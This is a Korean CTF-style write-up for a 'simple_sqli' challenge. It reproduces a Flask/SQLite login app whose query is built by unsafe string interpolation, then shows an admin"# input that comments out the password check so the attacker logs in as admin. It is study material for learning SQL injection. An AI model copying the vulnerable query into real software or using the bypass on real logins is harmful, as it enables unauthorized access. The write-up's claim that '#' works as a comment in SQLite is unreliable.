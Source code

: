 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>[웹 프로젝트] SQL Injection simple_sqli Write-Up</h1>
</body>
<br>
<br>
</html>

SQL Injection을 공부해보고자 관련 문제를 풀어보고자 한다.
![image](https://github.com/user-attachments/assets/5bb23888-8e4d-4f02-a772-b61eec2eb2fe)
먼저 서버에 접속해 보면 로그인이 가능한것 같다.
![image](https://github.com/user-attachments/assets/31386867-e21e-4c36-9009-d8008dc585cc)
로그인창에 들어가보자. 특별한건 없어 보인다. 

그럼 문제 파일을 받아아보자.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```
코드를 살펴보면
'''python
try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'
```
이 부분에서 FLAG를 열 수 있는것 같다.
```python
if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```
밑으로 쭉 코드를 더 읽어보니 admin으로 로그인하면 FLAG를 얻을 수 있을 것으로 보인다.
```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```
로그인 id와 password를 DB로 넘기는 코드를 자세히 살펴보니 userdi로 입력한 값은 userid로 가고 userpassword로 입력한 값은 userpassword로 가서 인증을 요구한다는 것을 알 수 있습니다.
이때 admin이라는 id를 알고 있으니 id 창에 ``` admin"# ```을 추가하여 아래와 같이 주석처리 한다면 
```python
select * from users where userid="admin"#" and userpassword="{userpassword}"'
```
이렇게 SQL문이 DB로 전달될 것입니다.
여기서 DB가 전달 받은 주석처리가 된 SQL문은 
```python
select * from users where userid="admin"
```
까지인 것이니 admin으로 로그인이 가능하게 됩니다.

![image](https://github.com/user-attachments/assets/323873f7-efe5-40e9-a1d7-a853851914d1)

![image](https://github.com/user-attachments/assets/e8dc76cd-18d8-4c84-934b-ae6d9be34bed)


